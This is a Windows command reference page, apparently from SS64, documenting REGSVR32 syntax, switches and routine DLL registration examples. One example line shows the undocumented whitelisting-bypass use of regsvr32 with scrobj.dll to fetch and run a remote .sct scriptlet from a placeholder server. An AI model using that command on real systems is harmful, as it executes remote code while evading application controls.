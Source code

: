 ```yaml
---
title:
altTitle: SS64 Docs
date: 2016-09-04 19:26:55
useGithubLayout: false
---
```

<!-- #BeginLibraryItem "/Library/head_nt.lbi" --><!-- #EndLibraryItem --><h1>REGSVR32</h1>
<p>Register or unregister a DLL.</p>
<pre>Syntax
      REGSVR32 [/U] [/S] [/N] /I:[<i>CommandLine</i>] <i>DLL_Name</i><br>
Key
   /u          Unregister Server.

   /s          Silent, do not display dialogue boxes.

   /i          Call DllInstall to register the DLL.
               (when used with /u, it calls dll uninstall.)

   /n          Do not call DllRegisterServer, you must use this option with /i. 

  <i>CommandLine</i>  An optional command line for DllInstall

   /c          Console output (old versions only).</pre>
<p> <b>Examples</b></p>
<p>Unregister (disable) XP Zip folders<br>  
<span class="code">REGSVR32 <b>/u</b> C:\Windows\System32\zipfldr.dll</span></p>
<p>Unregister (Disable) CAB file viewer: <br>
<span class="code"> REGSVR32<b> /u</b> C:\Windows\System32\cabview.dll</span></p>
<p>Register (enable) <span>XP Zip folders<br>
</span>  <span class="code">REGSVR32 zipfldr.dll</span></p>
<p>Register (enable) <span>CAB file viewer:<br>
</span> <span class="code">REGSVR32 cabview.dll</span></p>
<p>Register Windows Update DLLs (for those times when XP repair <a href="http://windowssecrets.com/2007/09/27/03-Stealth-Windows-update-prevents-XP-repair">breaks</a> Windows Update) <br>
<span class="code">regsvr32 /s wuapi.dll<br>
regsvr32 /s wuaueng1.dll<br>
regsvr32 /s wuaueng.dll<br>
regsvr32 /s wucltui.dll<br>
regsvr32 /s wups2.dll<br>
regsvr32 /s wups.dll<br>
regsvr32 /s wuweb.dll</span></p>
<p>Register DAO 3.6 (Data Access Objects):<br>
<br>
<span class="code">REGSVR32 "C:\Program Files\Common Files\Microsoft Shared\DAO\DAO360.DLL"</span></p>
<p>Using UnRegister to trigger remote code execution (<a href="http://subt0x10.blogspot.co.uk/2016/04/bypass-application-whitelisting-script.html">undocumented</a>)<br>
<span class="code">REGSVR32 /s /n /u /i:http://server/file.sct scrobj.dll</span></p>
<p class="quote">“I was planning to go into architecture. But when I arrived, architecture was filled up. Acting was right next to it.  So I signed up for acting instead” ~ Tom Selleck (on his college registration experience)</p>
<p><b>Related:</b><br>
<br>
Delsrv - unregister a service with the Services Control Manager. (<a href="../links/windows.html#kits">Win 2K ResKit</a>)<br>
<a href="msiexec.html">MSIEXEC</a> - Microsoft Windows Installer <br>
<a href="rundll32.html">RUNDLL32</a> - Run a DLL command <br>
<a href="https://support.microsoft.com/kb/249873">Q249873</a> - Regsvr32 usage and error messages</p><!-- #BeginLibraryItem "/Library/foot_nt.lbi" --><p>
<!-- windows300 -->
<ins class="adsbygoogle" style="display:inline-block;width:300px;height:250px" data-ad-client="ca-pub-6140977852749469" data-ad-slot="7649547908"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script></p>
<hr>
<div id="bl" class="footer"><a href="regsvr32.html#"><img src="../images/top.png" width="30" height="22" alt="Back to the Top"></a></div>
<div id="br" class="footer, tagline">© Copyright <a href="http://ss64.com/">SS64.com</a> 1999-2016<br>
Some rights reserved</div><!-- #EndLibraryItem -->
